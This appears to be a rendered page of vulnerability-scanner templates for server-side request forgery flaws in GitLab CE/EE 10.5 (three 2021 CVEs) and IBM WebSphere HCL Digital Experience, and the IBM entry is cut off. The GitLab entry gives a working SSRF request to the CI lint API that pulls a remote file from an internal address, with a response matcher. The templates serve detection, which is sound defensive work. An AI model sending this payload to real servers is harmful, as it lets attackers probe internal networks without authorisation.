 
# Gitlab CE/EE 10.5 - Server-Side Request Forgery

## Description

- GitLab CE/EE versions starting from 10.5 are susceptible to a server-side request forgery vulnerability when requests to the internal network for webhooks are enabled, even on a GitLab instance where registration is limited. The same vulnerability actually spans multiple CVEs, due to similar reports that were fixed across separate patches. These CVEs are:
- CVE-2021-39935
- CVE-2021-22214
- CVE-2021-22175

- severity - high
- tags - cve,cve2021,gitlab,ssrf

## Requests

- Method - POST
- Method - POST

### URL

- {{BaseURL}}/api/v4/ci/lint?include_merged_yaml=true
  - {"content": "include:\n remote: http://127.0.0.1:9100/test.yml"}

### Matchers

**Type - word**

- part - body
- words
  1. does not have valid YAML syntax

---

# IBM WebSphere HCL Digital Experience - Server-Side Request Forgery

## Description

- IBM WebSphere HCL Digital Experience is vulnerable to server-side request forgery that impacts on-premise deployments and containers.

- severity - high
- tags - cve,cve2021,hcl,ibm,ssrf,websphere

## Requests

- Method - GET
